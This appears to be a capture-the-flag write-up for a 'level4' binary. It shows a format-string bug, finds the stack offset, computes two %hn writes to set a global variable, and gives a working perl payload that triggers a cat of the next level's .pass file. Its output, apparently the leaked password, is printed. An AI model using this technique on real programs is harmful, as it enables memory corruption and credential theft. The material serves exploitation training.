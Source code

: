 # level4

The process is very close to level3:

```c
number = 0;  // 0x8049810
{
...

fgets(arg, 512, stdin);

printf(arg)

if (number == 0x1025544) {
	// we win :)
	system("/bin/cat /home/user/level5/.pass");
}
...
```
> view the `Ressources/main.asm` and `source` files for the disasembly part

The goal is to write the value `0x1025544` in the address of `number` (`0x8049810`).

---

Let's determine the offset at which the first printf arg begin
```
> for i in {0..100}; do echo "Index: $i" && echo "****%$i\$x" | ./level4 ; done | grep -B1 2a2a
Index: 12
```

This mean that we can do
```bash
> echo "ABCD %12\$x" | ./level4
ABCD 44434241

# 41 A,  42 B,  43 C,  44 D

# ABCD 44 43 42 41
#      D  C  B  A
```

---

We can use the `%n` like in the level3 but `0x1025544` is a big number,
so we are gonna split it in half

`0x0102`, `0x5544` // splited in 16bits

We need to write number in ascending order

`0x5544 > 0x0102` so we write `0x0102` before

`0x0102`:
- 0x0102 - 8 = 250  // 8 is the two address length
- 256 % 16 = 0
- 256 - 250 = 6  // we append 6 at the end

`0x5544`:
- 0x5544 - 0x0102 = 21570
- 21584 % 16 = 0
- 21584 - 21570 = 14  // we append 14 at the end

---
exploit

```bash
> (perl -e 'print "\x12\x98\x04\x08" . "\x10\x98\x04\x08" . "%250x%12\$hn" . "%21570x%13\$hn" . "A"x(6+14)'; cat) | ./level4
bffff704AAAAAAAAAAAAAAAAAAAA
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

